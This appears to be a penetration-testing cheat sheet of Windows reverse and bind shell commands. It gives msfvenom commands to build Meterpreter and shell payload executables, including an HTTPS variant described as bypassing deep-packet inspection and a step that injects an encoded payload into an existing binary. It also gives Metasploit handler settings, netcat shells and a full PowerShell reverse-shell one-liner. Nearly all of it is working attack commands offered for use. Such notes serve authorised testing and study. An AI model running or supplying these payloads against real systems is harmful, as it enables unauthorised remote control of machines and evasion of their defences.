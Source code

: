 # Windows

## Standard Meterpreter

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.101 LPORT=445 -f exe -o shell_reverse.exe
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
```

## Meterpreter HTTPS

* makes the meterpreter traffic look normal
* since it is hidden in https the communication is encrypted and can be used to bypass deep-packet inspections

```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.0.101 LPORT=443 -f exe -o met_https_reverse.exe
```

## Non-Staged Payload

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=196.168.0.101 LPORT=445 -f exe -o shell_reverse_tcp.exe
use exploit/multi/handler
set payload windows/shell_reverse_tcp
```

## Staged Payload

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=196.168.0.101 LPORT=445 -f exe -o staged_reverse_tcp.exe
```

* must be caught with metasploit
* does not work with netcat

```bash
use exploit/multi/handler
set payload windows/shell/reverse_tcp
```

## Inject Payload into Binary

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.101 LPORT=445 -f exe -e x86/shikata_ga_nai -i 9 -x "/somebinary.exe" -o bad_binary.exe
```

## Netcat

### Bind Shell

```bash
nc.exe -nlvp 4444 -e cmd.exe
```

### Reverse Shell

```bash
nc -lvp 443
nc.exe 192.168.1.101 443 -e cmd.exe
```

## Power Shell

* first start a nc listener on the attacking machine
* connect to it with this command \(change port and IP\)

```bash
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

